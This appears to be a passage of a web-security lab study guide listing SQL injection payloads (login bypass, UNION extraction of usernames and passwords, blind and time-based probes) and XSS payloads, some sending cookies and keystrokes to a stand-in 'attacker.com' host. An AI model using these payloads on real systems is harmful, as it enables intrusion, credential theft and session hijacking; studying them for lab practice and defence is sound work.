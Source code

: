**🔧 Essential SQLi Payloads**
```sql
-- Basic detection
' OR '1'='1
" OR "1"="1
' OR 1=1--
') OR ('1'='1

-- Union-based extraction
' UNION SELECT null,null,null--
' UNION SELECT username,password FROM users--
' UNION SELECT @@version,null,null--

-- Boolean-based blind
' AND (SELECT SUBSTRING(username,1,1) FROM users WHERE id=1)='a'--
' AND (SELECT COUNT(*) FROM users)>0--

-- Time-based blind
'; WAITFOR DELAY '00:00:05'--
' AND (SELECT SLEEP(5))--
'; SELECT pg_sleep(5)--
```

#### 2. Cross-Site Scripting (XSS) (30 Labs)
| Lab | Difficulty | Key Learning |
|-----|------------|--------------|
| Reflected XSS into HTML context | Apprentice | Basic XSS concepts |
| Stored XSS into HTML context | Apprentice | Persistent XSS |
| DOM XSS in document.write sink | Practitioner | Client-side XSS |
| Reflected XSS with some SVG markup allowed | Expert | Filter bypass techniques |
| Stored XSS into onclick event | Expert | Event-based XSS |

**🔧 Essential XSS Payloads**
```javascript
// Basic XSS
<script>alert('XSS')</script>
<img src=x onerror=alert('XSS')>
<svg onload=alert('XSS')>

// Filter bypasses
<ScRiPt>alert('XSS')</ScRiPt>
<img src="x" onerror="alert(String.fromCharCode(88,83,83))">
<svg><script>alert&#40;'XSS'&#41;</script>

// Advanced payloads
<script>fetch('/admin',{method:'POST',body:'action=delete&user=victim'})</script>
<script>document.location='http://attacker.com/steal?cookie='+document.cookie</script>
<script>new Image().src='http://attacker.com/keylog?key='+event.key</script>
```
